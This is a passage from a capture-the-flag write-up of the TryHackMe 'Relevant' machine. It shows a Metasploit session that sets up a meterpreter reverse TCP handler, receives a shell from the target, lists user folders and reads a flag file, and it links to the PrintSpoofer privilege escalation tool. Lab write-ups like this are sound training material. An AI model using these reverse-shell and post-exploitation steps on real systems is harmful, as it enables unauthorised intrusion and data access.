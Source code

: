 ```
kali@kali:~/CTFs/tryhackme/Relevant$ msfconsole -q
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/smb/ms17_010_eternalblue) > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload windows/x64/meterpreter_reverse_tcp
payload => windows/x64/meterpreter_reverse_tcp
msf5 exploit(multi/handler) > set lhost 10.8.106.222
lhost => 10.8.106.222
msf5 exploit(multi/handler) > set lport 4444
lport => 4444
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.8.106.222:4444 
[*] Meterpreter session 1 opened (10.8.106.222:4444 -> 10.10.9.11:49873) at 2020-10-14 21:52:05 +0200
```

```
meterpreter > getuid
Server username: IIS APPPOOL\DefaultAppPool
meterpreter > cd c:/users
meterpreter > dir
Listing: c:\users
=================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
40777/rwxrwxrwx   0     dir   2020-07-25 17:05:52 +0200  .NET v4.5
40777/rwxrwxrwx   0     dir   2020-07-25 17:05:49 +0200  .NET v4.5 Classic
40777/rwxrwxrwx   0     dir   2020-07-25 16:57:31 +0200  Administrator
40777/rwxrwxrwx   0     dir   2016-07-16 15:34:35 +0200  All Users
40777/rwxrwxrwx   0     dir   2020-07-25 17:21:26 +0200  Bob
40555/r-xr-xr-x   0     dir   2016-07-16 08:04:24 +0200  Default
40777/rwxrwxrwx   0     dir   2016-07-16 15:34:35 +0200  Default User
40555/r-xr-xr-x   0     dir   2016-07-16 15:23:21 +0200  Public
100666/rw-rw-rw-  174   fil   2016-07-16 15:23:24 +0200  desktop.ini

meterpreter > cd c:/users/Bob/Desktop
meterpreter > dir
Listing: c:\users\Bob\Desktop
=============================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  35    fil   2020-07-25 17:23:52 +0200  user.txt

meterpreter > cat user.txt
THM{fdk4ka34vk346ksxfr21tg789ktf45}
```

[PrintSpoofer](https://github.com/itm4n/PrintSpoofer)
